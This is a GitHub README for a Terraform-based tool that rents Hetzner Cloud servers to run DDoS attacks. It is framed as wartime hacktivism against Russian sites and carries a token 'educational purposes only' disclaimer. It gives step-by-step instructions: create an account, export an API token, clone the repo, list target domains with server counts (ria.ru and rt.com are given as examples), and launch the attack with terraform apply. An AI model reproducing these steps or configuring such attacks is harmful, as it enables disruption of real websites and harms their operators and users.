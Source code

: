 ## DDoS via Hetzner Cloud 

**hcloud-tf-kozak-launcher** helps easily launch DDoS servers via hetzner cloud (aws alternative) and, for instance, shut down russian fuckers' websites. (But it must be used for educational purposes only).

Note: payment for hcloud is about $1 to $5 per day.



How it works:
- Indicate the number of servers for DDoS attacks.
- Indicate domains you want to shut down.
- Using terraform launch these servers.
- Stop servers when you no longer need them working.
- Launch servers again indicating other websites.

## Install additional services 

**1. Create an account on [hetzner:cloud](https://www.hetzner.com/cloud)**
    
**2. Create a new project on [hetzner](https://www.hetzner.com/cloud)**

**3. Generate API-roken on [hetzner](https://www.hetzner.com/cloud)**

*PROJECT_NAME -> Security -> API TOKENS -> GENERATE API TOKEN (choose Read + Write)
    
**4. Open console**

**5. Export API token**
```bash
export TF_VAR_hcloud_token=<your token>
```
**6. Install terraform** ([installation guide](https://learn.hashicorp.com/tutorials/terraform/install-cli))


---
## Attack
**1. Clone project from Github and go to root directory**
```bash
git clone https://github.com/higef/hcloud-tf-kozak-launcher.git
cd hcloud-tf-kozak-launcher
```
**2. Fill config.yml (located in proejct's directoy) with sites and number of servers**
```yml
targets:
  - host: https://ria.ru
    count: 10
  - host: https://www.rt.com
    count: 3
```
**3. Launch servers and start DDoS**

```terraform
terraform init
terraform apply -auto-approve"
```

**4. Stop these servers, when you are done**

```terraform
terraform destroy -auto-approve
```

# СЛАВА УКРАЇНІ, ГЕРОЯМ СЛАВА 💛💙

based on https://github.com/UA-TECH-POWER/DDoS_terraform_aws